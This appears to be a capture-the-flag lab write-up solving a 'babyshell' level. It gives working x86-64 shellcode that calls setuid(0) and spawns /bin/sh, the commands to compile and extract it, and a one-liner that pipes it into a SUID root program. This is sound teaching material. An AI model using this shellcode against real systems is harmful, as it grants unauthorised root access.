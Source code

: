 ## Level 1

List the file in the current directory. There is a SUID program called `babyshell_level1_teaching1` and its owner is root. So we can exploit it to leak the contents of flag. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babyshell-1.PNG?raw=true)

According to the hint: the standard input will be read into memory at 0x17011000 and executed. So our goal is to write a shellcode and send it as a standard input. 

![](https://github.com/chuang76/writ3up/blob/main/figure/babyshell-2.PNG?raw=true)

![](https://github.com/chuang76/writ3up/blob/main/figure/babyshell-3.PNG?raw=true)

Write the shellcode program in `/tmp` directory. The program aims to invoke setuid(0) and execve("/bin/sh").

```assembly
.global _start

_start: 
.intel_syntax noprefix
	mov rax, 0x69		; setuid 
	mov rdi, 0
	syscall 
	
	mov rax, 0x3b 		; execve
	lea rdi, [rip+filename]
	mov rsi, 0
	mov rdx, 0
	syscall 

filename:
	.string "/bin/sh"
```

Compile it as a binary file and use objcopy command to extract the raw shellcode. 

```
$ gcc -nostdlib -static shellcode.s -o shellcode
$ objcopy --dump-section .text=shellcode-raw shellcode
```

So here is the flag. 

```
$ (cat ./tmp/shellcode-raw; cat) | ./babyshell_level1_teaching1
```

![](https://github.com/chuang76/writ3up/blob/main/figure/babyshell-4.PNG?raw=true)